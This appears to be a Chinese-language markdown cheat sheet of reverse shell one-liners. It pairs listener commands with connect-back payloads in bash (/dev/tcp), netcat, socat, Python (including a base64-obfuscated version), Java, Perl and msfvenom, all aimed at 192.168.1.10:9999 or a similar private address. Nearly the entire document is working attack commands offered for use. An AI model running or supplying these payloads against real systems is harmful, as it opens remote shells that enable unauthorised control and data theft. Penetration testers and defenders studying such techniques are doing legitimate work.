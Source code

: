 # 反弹 SHELL

> [反弹SHELL介绍及原理 - Cocowool](https://www.cnblogs.com/cocowool/p/reverse-shell.html)
> 
> [linux各种一句话反弹shell总结 - myles007](https://www.anquanke.com/member/125339)](https://www.anquanke.com/post/id/87017)

## 反弹SHELL工具

### BASH

```bash
# 控制端 监听端口,等待 被控端连接
nc -lvp 9999

# 被控端 将本地bash反弹到 控制端
bash -i >& /dev/tcp/192.168.1.10/9999 0>&1 2>&1
```

## netcat

```bash
# 控制端 监听端口,等待 被控端连接
nc -lvp 9999

# 被控端 将本地bash反弹到 控制端
nc 192.168.1.10 9999 -t -e /usr/bin/bash
```

## socat

```bash
# 控制端 监听端口,等待 被控端连接
socat TCP-LISTEN:9999 -

# 被控端 将本地bash反弹到 控制端
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.10:9999
```

## python

```bash
# 未加密版
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# base64加密版
python -c "exec('aW1wb3J0IHNvY2tldCAgICAgICAgLCBzdWJwcm9jZXNzICAgICAgICAsIG9zICAgICAgICA7ICBob3N0PSIxOTIuMTY4LjMxLjIwMCIgICAgICAgIDsgIHBvcnQ9MTIzNDUgICAgICAgIDsgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICAgICAgLCBzb2NrZXQuU09DS19TVFJFQU0pICAgICAgICA7ICBzLmNvbm5lY3QoKGhvc3QgICAgICAgICwgcG9ydCkpICAgICAgICA7ICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgICwgMCkgICAgICAgIDsgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgLCAxKSAgICAgICAgOyAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICAsIDIpICAgICAgICA7ICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik='.decode('base64'))"
```

## java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.10/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## perl

```bash
perl -e 'use Socket;$i="192.168.1.10";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## msfvenom

```bash
# msfvenom 框架提供了大量类unix的命令,都是以 cmd/unix/reverse_xxx 的格式
msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.10 lport=9999 R
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.10 lport=9999 R                                                                                         |     |     |     |
```
